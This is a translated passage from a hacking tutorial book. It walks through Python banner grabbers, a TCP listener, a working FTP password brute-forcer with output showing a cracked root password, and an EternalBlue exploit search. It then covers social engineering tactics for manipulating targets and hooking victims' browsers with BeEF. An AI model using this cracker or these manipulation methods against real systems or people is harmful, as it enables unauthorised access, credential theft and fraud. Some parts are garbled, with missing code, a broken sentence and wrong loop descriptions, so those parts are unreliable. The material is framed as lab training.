你的脚本中不需要使用注释，但强烈建议加上。想象一下，如果你六个月或六年后回到你的脚本，试图确定你当时想完成什么。此外，想象一下，五年后另一位程序员试图破译你的代码。在这两种情况下，注释都非常有帮助，并能为你节省大量的时间和精力。

Python 使用`#`符号来标记单行注释。当你想要编写多行注释时，你可以使用三个双引号（`'''`）开始注释，并在结尾使用三个双引号。

如下所示，我已通过一些有助于解释我们使用这段代码试图做什么的注释，增强了我们的`secondpythonscript.py`文件。


```python
#!/usr/bin/python3
"""
This script is designed to teach different variable types
These comments are here to help us later understand
why and how we wrote this code. You will not regret
taking the time to add comments!
"""

HackersAriseStringVariable = "Getting Started Becoming a Master Hacker"
```

当我们再次执行脚本时，不会有任何变化，因为 Python 解释器只是跳过了注释，并只执行非注释行。

## 函数

Python 中的函数（像其他编程语言一样）是执行特定操作的代码片段。它们就像脚本中的小程序。例如，我们上面使用的`print()`语句就是一个函数，它会显示你传递给它的任何东西。Python 中有大量你可以导入和使用的函数。大多数在你的默认 Python 安装中可用，但在 Python 的可下载库中还有许多其他的。

以下是一些可用函数的简要示例。

- `abs()` - 返回数字的绝对值
- `ascii()` - 返回包含对象可打印表示的字符串
- `bool()` - 返回布尔值
- `dict()` - 创建新字典
- `help()` - 调用内置帮助
- `hash()` - 返回对象的哈希值
- `max()` - 返回最大值
- `hex()` - 将整数转换为十六进制
- `min()` - 返回最小值
- `round()` - 返回四舍五入后的数字
- `len()` - 返回对象的长度
- `sum()` - 对可迭代对象中的项求和并返回总和

```bash
root@kali-2019:~# ./secondpythonscript.py
Getting Started Becoming a Master Hacker
12
3.1415
3
root@kali-2019:~#
```

你也可以创建自己的函数，但在这样做之前，请确保该函数尚未被创建。你可以查看 [https://docs.python.org](https://docs.python.org) 上的官方 Python 文档。

要创建你自己的函数，请使用`def`语句，后跟你要为函数使用的名称。例如，如果我们想要创建一个名为“new_function”的函数，我们将输入：`def new_function`。

## 列表

大多数编程语言使用所谓的数组来存储多个独立的对象。这些数组是值的列表，当通过索引 `[]` 引用时，可以被检索、删除、替换和操作。在 Python 中，数组被称为列表。

这里值得一提的是，Python——像许多其他编程语言一样——从 0 开始计数。

第一个元素是元素 0，第二个元素是元素 1，等等。这意味着，如果你想访问列表中的第四个元素，你会使用 `list[3]` 来完成。

Python 中的列表是可迭代的。这意味着当你完整运行一遍列表时，列表可以提供连续的元素（参见循环）。这很有用，因为当我们使用列表时，通常是在列表中查找特定值，例如密码列表。

假设你想在我们的`secondpythonscript.py`中显示我们列表中的第三个元素（我们创建了一个名为`HackersAriseList`的列表）。我们可以通过调用列表名称后跟元素索引（用方括号括起来）来访问并打印该元素。

现在让我们在脚本上测试一下。在脚本的第 27 行，将方括号中的索引更改为 `[2]`。

现在，再次运行脚本。

`kali > ./secondpythonscript.py`

你可以看到，这次，脚本从我们的列表中打印了数字 3！


```python
#!/usr/bin/python3

import socket

s = socket.socket()

s.connect(('192.168.1.101', 22))

answer = s.recv(1024)

print(answer)

s.close()
```

## 模块

模块只是一个保存到单独文件中的代码部分，这样你就可以在需要时尽可能多次地使用它，而无需一次又一次地重新输入所有代码。如果你想使用一个模块，你需要导入它。正如我们之前讨论的，使用标准和第三方模块是 Python 的关键优势之一，而这些特定的模块正是黑客喜欢 Python 的原因。因此，如果我们想使用`ftp`模块，我们会导入它。

```python
import ftplib
```

在本章的后面部分，我们将使用此模块和`socket`模块在我们的`ftp`密码破解脚本中。

### Python 中的网络通信

在我们进入更高级的 Python 概念之前，让我们利用迄今所学的知识编写一些可能对黑客和信息安全专业人员有用的脚本。

### 构建 TCP 客户端

在这个脚本中，我们将使用一个非常实用且广泛使用的名为`socket`的模块，在 Python 中创建一个简单的 TCP 网络连接。Socket 是 Python 中许多模块之一，可用于多种任务。在这里，我们将使用`socket`模块来创建我们的简单 TCP 连接。

让我们构建下面看到的脚本，然后我们会在这里对其进行分析。该脚本会获取第 22 端口上 SSH 协议提供的横幅（banner）。如我们在第 4 章中通过 Shodan 所见，横幅是应用程序在有人或某物连接时发出的“公告”。黑客可以利用这种技术进行侦察，以确定在某个端口上运行的是什么应用程序，甚至是应用程序的版本。这正是 Shodan 所做的。它从每个端口和 IP 地址抓取横幅，将横幅信息放入数据库中，对其进行索引，并允许我们通过该信息进行搜索。


在第一步中，我们需要导入我们之前提到的`socket`模块。一旦导入，我们就可以使用其函数和工具。在这个脚本中，我们将使用`socket`模块为我们创建一个网络上的连接。Socket 是一个模块，它使两个计算机节点能够相互通信。它使用熟悉的服务器/客户端架构。

在下一步中，我们创建一个变量并将其与`socket`模块中的`socket`类关联（还记得我之前关于类的讨论吗？）。我们这样做是为了避免每次想使用它时都引用完整的`socket.socket()`语法。现在我们可以简单地使用变量名，使我们的编码更简单、更高效。

接下来，我们使用`socket`模块中的`connect()`方法，向特定的 IP 地址和端口建立网络连接。请记住，方法是特定对象可用的函数。在 Python 中，语法是`object.method`。在这种情况下，我们正在连接到 IP 地址`192.168.1.101`（使用你的 Metasploitable 2 系统的 IP 地址）和端口`22`。

一旦建立连接，我们就可以做很多事情。在这个脚本中，我们使用接收方法`recv`从套接字（TCP 连接）中读取 1024 字节的数据，并将这些信息存储在一个名为`answer`的变量中。接收方法获取横幅信息并将其放入变量中。

一旦变量拥有横幅信息，我们就希望使用`print()`函数打印它。在脚本的最后一行，我们关闭套接字。

现在，将此脚本保存为`SSH BannerGrab.py`，并使用`chmod`（`chmod 755 SSHBannerGrab.py`）赋予自己执行权限。让我们现在运行此脚本，如果目标系统在端口 22 上运行 SSH，它将建立 TCP 连接，接收横幅，将横幅放入变量中，并打印变量的内容，如下所示。

我们刚刚创建了我们第一个侦察 Python 脚本！

如你所见，此脚本不仅告诉我们端口 22 上运行的是什么应用程序，还告诉我们应用程序的版本（7.3p1）和操作系统（Debian-1）。在许多

，这种情况下，这些信息对于黑客确定攻击系统的方法至关重要！

## 创建 TCP 监听器


既然我们已经创建了一个能够捕获横幅信息的 TCP 客户端，让我们接下来创建一个 TCP 监听器。使用相同的 `socket` 函数，我们可以创建一个外部人员可以连接的 TCP 监听器。

在我们下一个 Python 脚本中，我们将在你的系统上创建一个套接字，使连接的监听器能够收集关于其系统的关键信息。换句话说，当有人连接到我们的系统时，我们将收集关于他们的信息。（每个连接到某个系统的系统都携带着几乎独一无二的自身信息。）

```python
#!/usr/bin/python3

import socket

TCP_IP="192.168.1.101"
TCP_PORT=5555
BUFFER_SIZE=100

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.bind((TCP_IP, TCP_PORT))
s.listen(1)

conn, addr = s.accept()
print('Connection address:', addr)

while 1:
    data = conn.recv(BUFFER_SIZE)
    if not data: break
    print("Received data:", data)
    conn.send(data) #echo

conn.close()
```

输入下面的脚本并将其保存为 `tcp_listener.py`。请记得授予自己执行权限（`chmod`）。

照例，在第一行，我们声明希望使用 Python 解释器运行此脚本。然后，我们再次导入 `socket` 模块。接着，我们定义变量来保存 TCP/IP 地址和端口的信息。接下来，我们定义一个变量来指定我们要从连接中收集的信息的缓冲区大小。

然后，我们定义套接字，并使用刚才创建的变量将套接字绑定到 IP 地址和端口。我们使用 `socket` 模块库中的 `listen()` 方法告诉套接字监听传入的连接。

然后，我们捕获连接到我们套接字的系统的 IP 地址和端口，并使用 `print()` 将此信息打印到用户屏幕上。

接下来，我们使用 `while` 循环。我们将在下一节讨论 `while` 循环，但请注意，只要存在数据（`if not data: break`），它将无限期地继续运行随后的缩进代码。这意味着只要有传入数据，此脚本就会继续运行。当数据停止时，该脚本也会停止。

最后，我们将信息放入缓冲区，打印出来，并关闭连接。

要测试我们的脚本，首先执行 `tcp_listener.py` 脚本，然后前往网络中的另一台计算机并连接到我们脚本中指定的端口（`5555`）。我们的脚本将收集关于连接系统的关键信息并将其打印出来。

这再次是黑客在运行利用程序（`exploit`）之前所需的关键信息。正如你之前所学到的，利用程序非常特定。它们仅适用于特定的操作系统、应用程序、端口、版本，有时甚至是特定的语言（即 `MS14-054`）。这都属于侦察的一部分，就像我们在第 4 章中做的那样，这个脚本与被动操作系统指纹识别工具或 `p0f` 非常相似。

## 字典、循环和控制语句

让我们继续扩展我们在 Python 中的知识和技能，并将它们应用到额外的黑客工具中。

### 字典

字典以无序对的形式保存信息。这些对包含一个键和一个关联值。我们可以使用字典来存储项目列表，并为每个项目分配一个标签，以便我们可以单独引用它们。

例如，我们可能将键 1 存储为值 “Acura”，键 2 存储为 Audi，值 3 存储为 BMW，依此类推。在某些系统中，这些字典可能用于将 `USERID`（键）与用户密码（值）一起存储。Python 中的字典操作类似于许多其他语言中的关联数组。

就像我们之前提到的列表一样，字典是可迭代的。这意味着我们可以使用控制结构（如 `for`、`if-else` 或 `while`）来遍历字典中的每个值。这在创建密码破解器时特别有用。我们可以创建一个脚本，尝试文件中的每个密码，直到找到正确的密码或退出。

创建字典的语法如下：

`dict = {key1:value1, key2:value2, key3:value3}`

注意，对于这些字典，我们使用花括号 `{}`，并用逗号分隔每个项目。你可以包含任意多的键值对。

### 控制语句

控制语句允许你的脚本基于某些条件做出决策，例如“只要此条件评估为真，就继续。当它评估为假时，停止。”在 Python 中有很多控制脚本流程的方法。我们将在这里介绍其中一些更重要的方法。

#### if 语句

Python 中的 `if` 控制结构与其他编程语言（包括 BASH，关于 BASH 的更多信息请参见*《Linux Basics for Hackers》*）中的 `if` 控制语句非常相似。`if` 语句用于检查一个语句是 TRUE 还是 FALSE，然后根据该条件的结果运行不同的代码。其语法看起来像这样：

```
if <一个评估为 TRUE 或 False 的条件语句>
    <如果上面的语句为 TRUE 时运行的代码>
```

`if` 语句包含一个条件，可能是类似于：

`if variable < 10`

如果条件评估为 TRUE，则执行随后的代码。如果语句评估为 FALSE，则跳过下一条语句且不执行。

`if` 语句后面的语句称为控制块，在 Python 中，控制块必须缩进。缩进是识别控制块的方式。未缩进的下一条语句位于控制块之外，不属于 `if` 语句的一部分。这就是 Python 知道当 `if` 评估为 TRUE 时执行哪些代码行，以及当它评估为 FALSE 时去哪里的方式。

#### If...else

在 Python 中，`if...else` 结构看起来像这样：

```
if <评估为 TRUE 或 FALSE 的条件语句>
    <如果为 TRUE 时运行的语句>
else:
    <如果为 FALSE 时运行的语句>
```

与 `if` 语句一样，Python 解释器检查 `if` 语句后面的条件评估为 TRUE 还是 FALSE。如果它评估为 TRUE，则执行控制块中的语句。如果它评估为 FALSE，则执行 `else` 之后控制块中的语句。

##### elif

`if...else` 语句的一种变体是 `elif` 语句。虽然 `if...else` 语句允许你执行**一个**语句或代码块，但有时你可能有许多可能的子句需要执行。`elif` 使你能够嵌套多个可能结果的情况，并针对具体情况执行适当的语句或代码块。

一个 `elif` 跟随在 `if` 或另一个 `elif` 之后。`Elif` 是 “else if” 的缩写。简单来说，`elif` 使你能在前面的所有条件都评估为 FALSE 时提供另一个要评估的条件。重要的是要注意，只有一个代码块会被执行，因此顺序很重要！

```
if port == 22:
    print("This open port is running SSH")
elif port == 25:
    print("This open port is running SMTP")
elif port == 53:
    print("This open port is running DNS")
elif port == 80:
    print("This open port is running HTTP")
```

### 循环

循环在编写 Python 脚本时可能是一个非常有用的结构。循环使我们能够多次重复一个代码块，这取决于一个值或一个条件（TRUE|FALSE）。最常用的两种是 `while` 循环和 `for` 循环（我们在 `tcp_listener` 中使用了一个 `for` 循环，只要存在数据就继续运行）。

#### While 循环

`while` 循环评估一个布尔表达式（TRUE 或 FALSE），并在表达式评估为 TRUE 时继续执行。例如，我们可以创建一个代码片段，打印从 1 到 100 的每个数字，然后退出循环。

```
count = 1
while (count <= 100):
    print(count)
    count += 1
```

缩进的控制块只要条件评估为 TRUE（`count <= 100`）就会运行。在 `tcp_listener` 脚本中，我们的 `while` 循环只要存在数据就会运行。

`if not data: break`

#### For 循环

```
print("Password found: " + password)
sys.exit(0)
```

在此代码片段中，我们创建一个 `for` 语句，遍历我们提供的一个密码列表（见第 8 章），并尝试使用用户名和

## 为我们的脚本添加功能

既然我们已经对 Python 有了更多的了解，让我们看看能否利用这些高级知识来改进和扩展我们的脚本。让我们以我们的 SSH 横幅抓取脚本为例，赋予它抓取 SSH 之外更多横幅的能力。我们将添加一个端口列表来抓取横幅，并使用循环结构遍历列表中的每个元素，尝试抓取端口上服务的横幅（如果存在的话）。

第一步是创建一个包含端口的列表。打开 `SSH BannerGrab.py` 脚本，我们将对其进行编辑以添加此新功能。我们需要添加一个名为 `Ports` 的列表，并将我们要抓取横幅的端口放入该列表中，即端口 21、22、25 和 3306。


```python
#! /usr/bin/python3
import socket

s = socket.socket()

Ports=[21,22,25,3306]

for i in range (0,3):
    s=socket.socket()

    Port=Ports[i]

    print("This is Banner for the Port")

    print(Port)

    s.connect(("192.168.1.101", Port))

    answer = s.recv(1024)

    print (answer)

    s.close()
```

接下来，我们创建一个 `for` 循环，遍历该列表四次，使用列表中的每个元素。

请记住，`for` 循环内部使用的代码必须缩进。我们创建一个变量 `port`，在遍历过程中将其赋值为列表中每个元素的值。然后，我们在每次迭代中使用包含端口号的该变量来连接远程系统。当执行该行代码时，它将尝试连接到 IP 地址（务必使用目标系统的 IP 地址）和端口的组合。

现在，如果你在对 Metasploitable 2 系统运行此脚本，你应该会得到以下结果。


请注意，该脚本已经抓取了 21 端口的横幅，并发现其上运行着 vsFTPd 2.3.4；22 端口开放，运行着 OpenSSH 4.7；25 端口开放，运行着 Postfix；以及 3306 端口，运行着 MySQL 5.0.51a。

你现在已经成功使用 Python 构建了一个多端口横幅抓取工具，用于对目标系统进行侦察。该工具抓取服务横幅并告知该端口上运行的是哪种服务及其版本，从而简化了我们的利用任务！

## 异常和密码破解器

任何代码都面临错误和异常的风险。在编程中，异常是指任何干扰代码正常流程的东西——通常是错误。你通常希望捕获这些错误和异常并执行某些操作，有时你还可以将这些错误和异常用于代码逻辑中。为了解决这些错误，Python 拥有异常处理。异常处理只是一段在发生异常时被触发的代码。在 Python 中，我们使用 `try/except` 结构来处理异常。

顾名思义，`try` 块会尝试执行某些代码，如果发生错误，则执行 `except` 语句或代码块。如我上文所述，有时你可以将 `try/except` 结构融入代码逻辑中，类似于 `if...else`。例如，我们可以将 `try/except` 用于密码破解器中，如果由于密码不匹配而发生错误，则通过 `except` 语句移动到尝试下一个密码。让我们现在来看看这样做的方式。

下面你将看到一个简单的 FTP 密码破解器的代码（与其他协议相比，FTP 破解器相对简单，所以我们从这里开始）。该脚本询问用户 FTP 服务器的 IP 地址以及他们试图破解的密码所属的用户名。然后，它读取包含可能密码列表的文本文件（参见第 8 章），并逐一尝试，直到收到成功消息（代码 230）。

该脚本将持续运行，直到成功或密码用完为止。


```python
server = input("FTP Server: ")
user=input("username:  ")
Passwordlist=input("Path to PasswordList > ")
try:
    with open(Passwordlist, 'r') as pw:
        for word in pw:
            word=word.strip('\r').strip('\n')
            try:
                ftp = ftplib.FTP(server)
                ftp.login(user,word)
                print('Success! The password is ' + word )
            except:
                print('still trying...')
except:
    print('Wordlist error')
```

我们需要 `ftplib` 模块，因此我们需要首先导入它。接下来，我们需要创建一个名为 `server` 的变量和另一个名为 `user` 的变量。这两个变量存储来自脚本用户的输入。

该脚本提示用户输入 FTP 服务器的 IP 地址和用户名，并将这些信息存储在这些变量中。

然后，脚本询问用户密码列表的路径。你可以使用我们在第 8 章创建的密码列表，创建一个针对该用户的定制列表，或者在命令提示符下输入 `locate wordlists` 时使用 Kali 内置的任何列表。

然后，我们的脚本开始使用用户提供的密码列表的 `try` 代码块。

请注意，我们使用了一个之前未讨论过的名为 `strip` 的 Python 函数。此函数对于去除字符串的第一个和最后一个字符是必要的，以确保不使用密码列表中的空格或逗号。`strip` 函数会移除这些字符（如果存在），只保留密码中的字符字符串。如果没有它，你的脚本可能会尝试诸如 `password,` 或 `password ` 这样的密码。

这两个都不匹配潜在密码 `password`，因为前者包含逗号 `,`，后者包含空格 ` `。

```bash
root@kali-2019:~$ ./ftppasswordcracker.py
FTP Server: 192.168.13.132
username: root
Path to PasswordList > /root/custompasswordlist.txt
Success! The password is iloveyou
root@kali-2019:~$
```


接下来，我们使用第二个 `try` 块。在这里，我们首先使用 `ftplib` 模块连接到 FTP 服务器，然后尝试用户提供的密码列表中的下一个密码。

如果用户名和密码的组合导致错误（异常），`try` 块会退出并跳转到 `except` 子句（这是将 `try/except` 作为脚本逻辑一部分使用的良好示例）。

在那里，它打印 `still trying`，然后返回 `for` 子句的顶部，抓取下一个密码，并再次尝试。

如果新密码成功（代码 230），成功的密码将打印到屏幕上。最后一行捕获任何其他潜在错误，例如错误的密码或密码列表中的其他问题。

现在，我们准备在 Metasploitable 系统的 FTP 服务器上运行此脚本（务必在脚本提示时输入其 IP 地址）。在这里，我使用的是工作目录中的密码列表 `custompasswordlist.txt`，这是我使用第 8 章中的工具针对目标创建的定制列表。你可以使用你认为合适的任何密码列表，包括我们最常用的密码列表。只需务必使用列表的完整绝对路径，例如，`/usr/share/custompasswordlist.txt`。

如你所见，我们的脚本成功破解了 root 用户的 FTP 服务器密码！

### 用于利用 EternalBlue 的 Python 脚本

在这本书中，我们一直以 NSA 窃取的 EternalBlue 漏洞利用程序作为一个有效且恶意的漏洞利用示例。虽然这个漏洞利用程序最初不是用 Python 编写的，但一旦这个漏洞利用程序面世，全球安全社区就对其能力进行了逆向工程。这就是**第 9 章中的 Metasploit EternalBlue 漏洞利用**；它是 Metasploit 的逆向工程 EternalBlue 漏洞利用。**它执行的功能与原始版本相同，但代码不同。**

在 Python 中也发生了同样的事情。几位安全研究人员将 EternalBlue 漏洞利用逆向工程到了 Python 中。我认为这是一个非常好的、用于系统利用的高级 Python 示例。虽然在这个水平上开发这样的漏洞利用超出了我们的能力范围，但我认为看到并理解 Python 如何用于开发世界上最先进的漏洞利用之一是非常有用的。

要找到 EternalBlue Python 漏洞利用，你可以使用 Kali 中的 `searchsploit` 命令。


```bash
root@kali-2019:~# searchsploit eternalblue
Exploit Title             | Path
--------------------------|-------------------------
| (/usr/share/exploitdb/)
--------------------------|-------------------------
Microsoft Windows 7/2008 R2 - 'Eternal   | exploits/windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R   | exploits/windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64)    | exploits/windows_x86-64/remote/42030.py
--------------------------|-------------------------
Shellcodes: No Result
```

# 17 社会工程学

理解人类心理学、动机和行为是黑客最重要的工具之一。

*《掌握 OTW》*

随着机构、公司和个人安全意识的增强，有时渗透系统或网络的唯一方法是通过社会工程学。一些新手黑客往往低估社会工程学的重要性，反而期待那能让他们 *pwn*（攻陷）目标的“终极银弹”（例如 `EternalBlue`）。我必须指出，历史上一些最重要的黑客攻击都是社会工程学的结果，其中包括历史上最著名的黑客攻击：震网病毒（Stuxnet）（2010 年针对伊朗纳坦兹核浓缩设施的美国黑客攻击，参见 [https://www.hackers-arise.com/post/2019/11/01/scada-hacking-anatomy-of-the-stuxnet-attack](https://www.hackers-arise.com/post/2019/11/01/scada-hacking-anatomy-of-the-stuxnet-attack)）。

历史上其他一些因社会工程学导致的名人黑客攻击包括：

1. 2016 年大选期间的民主党全国委员会黑客攻击
2. 塔吉特百货（Target）销售点（POS）系统黑客攻击
3. 索尼影业黑客攻击
4. 2011 年 RSA 安全 ID 黑客攻击
5. 雅虎多次安全泄露事件
6. 俄罗斯对乌克兰电网的 Blackenergy3 黑客攻击

网络安全界有一句常被引用的格言：“任何信息安全系统中，最薄弱的环节是最终用户。” 如果攻击者能欺骗一名用户，整个网络——甚至整个机构——都可能被攻陷（一名用户点击恶意链接几乎让 RSA 崩溃，同样导致美国零售商塔吉特百货损失数十亿美元）。

## 什么是网络安全中的社会工程学？

社会工程学自古以来就是人类互动的组成部分。人们一直在通过社会工程学操纵彼此，让他们去做自己想要的。否则他们如何让年轻健康的男男女女去为毫无意义的战争而战？

社会工程学仅仅是操纵人们去执行你意愿或获取你所需信息的艺术。在网络安全领域，“执行某事”通常是打开电子邮件附件或点击恶意链接，而“泄露信息”通常是指密码。这两个例子都属于社会工程学，但还有很多其他形式。

## 社会工程学媒介

社会工程学是与黑客技术不同的技能集，但同样重要。许多黑客不花时间和精力去理解并掌握这一领域。它只是...

一门与黑客技术同样重要的科学，但也包含艺术/创造性元素。它要求理解人类的动机、人类的欲望以及人类的需求。

尽管社会工程学——让人做你想让他们做之事的艺术——形式多样，但实施攻击的向量（途径）却是广为人知的。

信息技术中一些最常见的社会工程学向量包括：

- **网络钓鱼（Phishing）** — 这种做法是发送大量电子邮件，试图让少数随机用户点击链接、打开附件或执行其他恶意行为。这可能是最常见的社会工程学攻击，但其有效性正日益降低。
- **定向网络钓鱼（Spear Phishing）** — 针对单个个体进行电子邮件攻击。这通常可以通过伪造电子邮件地址或电话号码来实现。通常，在此之前需要大量的开源情报收集来确定目标的兴趣、需求及其动机因素。如果操作得当，这可能*极其有效*。
- **巨鲸网络钓鱼（Whaling）** — 针对拥有极大权力之人的电子邮件。在某些情况下，这可能是首席执行官或组织中其他有权访问重要资源的人。
- **语音钓鱼（Vishing）** — 与网络钓鱼非常相似，但通过电话进行。随着能够进行“机器人拨号”的数字电话系统日益普及，这成为一种越来越有效的工具。
- **诱饵（Baiting）** — 类似于网络钓鱼（群发邮件），但在诱饵攻击中，攻击者以某些巨额回报（通常来自尼日利亚王子）为诱饵。
- **尾随（Tailgating）** — 这种攻击通常与进入安全设施有关。往往是非员工跟随员工进入需要适当身份验证的区域。
- **一报还一报（Quid Pro Quo）** — 这是拉丁语，意为“以此换彼”。这种社会工程学攻击通常涉及向目标承诺某种利益，以换取信息或其他服务。

## 社会工程学概念与策略

社会工程学是一个不同的科学领域，更接近于心理学。虽然在一本书的一章的一个部分中阐述人类心理的关键要点超出了范围，但我想简要概述一些已被证明在社会工程学中有效的概念。为了更全面、彻底地理解社会工程学，我推荐：

* **《社会工程学：人类黑客的艺术》**，作者克里斯托弗·哈德纳吉（Christopher Hadnagy）。

### 套取信息（Elicitation）

套取信息是从目标处获取你所寻求的信息或行为的能力。这是世界各地的间谍用来获取所需信息的技术。在美国国家安全局的培训手册中，国家安全局将套取信息定义为*“在正常且无辜的对话中巧妙地提取信息”*。太完美了！这正是我们试图做的事情。

这些对话可以发生在任何地方，当它们似乎是一天或工作中正常流程的一部分时，往往最有效。这可能是在午餐室、餐厅、咖啡馆、卫生间，几乎任何地方。

套取信息有效，因为人们喜欢谈论自己和他们的工作。套取信息之所以有效，是因为：

1. 人们乐于提供帮助。
2. 人们为自己及其工作感到自豪。
3. 人们希望显得聪明和重要。
4. 人们对奉承 susceptible（易受影响）。

套取信息的关键是让人们开口说话。至少有以下四种策略可以让人们开口：

1. 诉诸他们的自尊心。
2. 展示共同兴趣。
3. 主动提供关于你自己或你工作的信息。
4. 假设对方已知晓某些信息。

### 预设场景（Pretexting）

另一种极好的社会工程学策略被称为预设场景。在这种策略中，你假装是另一个人，拥有完全不同的背景和故事。一直想当演员吗？这可能就是你的机会！

预设场景不仅仅是撒谎；它通常涉及创造一整个新的身份和背景故事。值得注意的是，为了有效，预设场景必须针对目标进行定制。没有放之四海而皆准的方法。

预设场景在许多职业中都很常见，但可能在销售领域最为重要。整个概念是创造一个场景和信任度，使目标愿意交出他们原本不会提供的信息。

#### 规划预设场景

在进行预设场景攻击之前，进行一些规划是值得的。

1. 尽可能多地收集关于目标的信息。
2. 尝试找到你实际兴趣与目标兴趣重叠的领域。
3. 规划预设场景，使其看起来尽可能自发。

### 影响力（Influence）

如果攻击者想说服某人做或说我们想让他们做或说的事情，他们最好的策略是诉诸目标的利益，避免智力上的呼吁。说服通常涉及人类的信念和情感，而非智力。

关键在于让另一个人**愿意**做或想让我们希望他们做的事情。他们必须相信这是他们自己*想要*做或说的事情。

在开始影响力运动之前，有几个目标：

1. 设定明确的目标。
2. 建立融洽关系。
3. 保持观察力。
4. 保持灵活性。

**影响力策略**

以下是一些关键的影响力策略。如果你曾经购买过二手车，你可能会认出其中的一些。成功的销售人员往往是最好的社会工程师。他们成功是因为他们让你做了他们想让你做的事情：购买他们的产品。

- **互惠（Reciprocity）** — 人们乐于提供帮助，因此如果攻击者向目标提供一些东西，当被要求时，目标通常愿意通过向攻击者提供某种回报来回应。
- **义务感（Obligation）** — 攻击者通过给予或提供某些东西（通常只是善意或友好）来创造一种对自己的义务感。
- **让步（Concession）** — 这与互惠类似，但攻击者索要超出其需求的更多东西，并满足于他们想要的东西（当你只想要100美元时要求200美元，让目标让步到100美元）。
- **稀缺性（Scarcity）** — 攻击者制造虚假的稀缺性，让目标在所有东西售罄前采取行动。
- **权威（Authority）** — 攻击者扮演权威角色，让目标做出或透露某些事情。
- **共识（Consensus）** — 攻击者让目标相信“众所周知”或“大家都这样做”，以促使目标采取行动。

既然我们了解了一些社会工程学的心理学背景和策略，让我们来看看一些技术和工具，以协助这一努力。

**信息收集**


在尝试社会工程学攻击之前，最好尽可能多地收集关于目标的信息。这将使你能够设计一个针对个人需求和欲望定制的攻击。例如，如果你通过社交媒体网站和其他来源发现该个人是狂热的高尔夫球手，那么针对该人定制的电子邮件和URL成功的可能性将更大。此外，信息收集可能会揭示可以被冒充的朋友、家庭成员和工作同事（见下文中的SpoofBox），通过电子邮件、短信或其他手段。

有许多地方可以收集目标的信息，包括：

1. Facebook
2. LinkedIn
3. Twitter
4. Maltego
5. Google Hacking
6. 人物搜索

有关开源情报（OSINT）的更多信息，请访问 `www.hackers-arise.com/osint`

## 社会工程学工具

多年来，书籍和课程一直使用 Dave Kennedy 的社会工程工具包（SET）作为社会工程学工具的示例。尽管对 Dave Kennedy（他是一位优秀的安全研究人员）和其他人表示应有的尊重，但我认为 SET 并不非常有用。它的大多数技术不起作用，其界面也不优雅且笨重。

相反，以下工具*确实*有效且有用：

1. BeEF 或 浏览器漏洞利用框架。
2. Wi-Fi 钓鱼。
3. 短信欺骗。
4. 文件格式漏洞。

## 社会工程学技术与工具

有许多工具对社会工程学有用，但在这部分，我想展示其中少数几个。

### BeEF 或 浏览器漏洞利用框架

浏览器漏洞利用框架，简称 BeEF，使你可以控制目标的浏览器。它依赖于你让目标点击恶意 JavaScript 链接的能力，一旦他们点击，你就进入了他们的浏览器！一旦进入，你可以搞出相当大的破坏，包括：

1. 重置或对他们的路由器进行拒绝服务（DoS）攻击。
2. 社会工程学诱导他们交出密码。
3. 将他们的浏览器发送到其他恶意网站。
4. 社会工程学诱导他们让你访问他们的网络摄像头。

取决于你使用的 Kali 版本，BeEF 可能默认未安装，但它在 Kali 软件仓库中。如果 BeEF 未包含在你的 Kali 中，请直接从 Kali 软件仓库下载并安装它。

```bash
kali > apt install beef-xss
```

第一步是启动 BeEF 服务器。你可以通过输入以下命令来启动 BeEF：

```bash
kali > beef-xss
```

服务器启动后，你可以通过在浏览器中访问 `localhost:3000` 连接到它。这会调出如下图所示的屏幕，显示 BeEF 登录界面。默认登录凭据为：

- 用户名: beef
- 密码: beef


### 身份验证


登录后，你会看到如下图所示的界面。

使用 BeEF 的关键在于让目标点击 BeEF 的 javascript 链接，从而获得对其浏览器的控制权。为了成功攻击浏览器，你可以将 BeEF 钩子（hook）添加到目标很可能访问的网页中，或者通过电子邮件或短信发送该链接，并附上一些诱人的文本，例如：“你一定要看看这个视频！”

一旦目标点击了链接，BeEF 就会挂钩其浏览器，你将获得控制权！在这里，我已在 Kali 中挂钩了我的 Mozilla 浏览器（127.0.0.1）。


BeEF 0.4.4.9-alpha | 提交 Bug | 退出登录

### 已挂钩浏览器

- 在线浏览器
  - localhost
  - 127.0.0.1
- 离线浏览器
+ 基本
- 请求者
+ 入门指南 | 日志 | 当前浏览器
+ 详细信息
- 日志
- 命令
- 骑手
- Xss 载荷
- Ipec
+ 类别：浏览器 [6 项]
  - 浏览器名称: Firefox | 初始化
  - 浏览器版本: 24 | 初始化
  - 浏览器 UA 字符串: Mozilla/5.0 (X11; Linux i686; rv:24.0) Gecko/20100722 Firefox/24.0 Iceweasel/24.7.0 | 初始化
  - 浏览器平台: Linux i686 | 初始化
  - 浏览器插件: Gnome Shell 集成-v | 初始化
  - 窗口大小: 宽: 768, 高: 376 | 初始化
+ 类别：浏览器组件 [14 项]
  - Flash: 是 | 初始化
  - VBScript: 否 | 初始化
  - PhoneGap: 否 | 初始化
  - Google Gears: 否 | 初始化
  - Silverlight: 否 | 初始化
  - Web 套接字: 是 | 初始化
  - QuickTime: 否 | 初始化
  - RealPlayer: 否 | 初始化
  - Windows 媒体播放器: 否 | 初始化


当我点击左侧窗口中标记为“已挂钩浏览器”的浏览器链接时，BeEF 将显示关于该浏览器的关键信息。

现在你可以点击“命令”列，查看该目标系统上可用的所有命令。请注意颜色编码。绿色代表“通行”；该命令很可能有效。红色代表“停止”；该命令`不会`有效。灰色代表“也许”。

在下图中，我们可以看到几个绿色命令，包括“地理位置”。

### BeEF 0.4.6.1-alpha | 提交 Bug | 退出登录

| 被黑浏览器 | 命令 | | 当前浏览器 | |
| :--- | :--- | :--- | :--- | :--- |
| 在线浏览器 | 入门指南 | | | |
| 127.0.0.1 | | | | |
| | 详细信息 | 日志 | | 骑手 | Xss 射线 | Ipec | 网络 | WebRTC |
| | | **命令** | | | | | | |
| 127.0.0.1 | | | | | | | | |
| 离线浏览器 | | | | | | | | |
| **模块树** | | **模块结果历史** | | **地理位置** | | | | |
| | 搜索 | | | L. | 日期 | 标签 | | 描述: | 对你的受害者进行地理定位。 |
| 浏览器指纹（概念验证） | | | | 执行命令模块的结果将列在这里。 | | | | Id: | 128 |
| 获取访问过的 URL | | | | | | | | | |
| 间谍之眼 | | | | | | | | | |
| Chrome 扩展程序 (6) | | | | | | | | | |
| 在选项卡上执行 | | | | | | | | | |
| 获取所有 Cookie | | | | | | | | | |
| 抓取谷歌联系人 | | | | | | | | | |
| 注入 BeEF | | | | | | | | | |
| 屏幕截图 | | | | | | | | | |
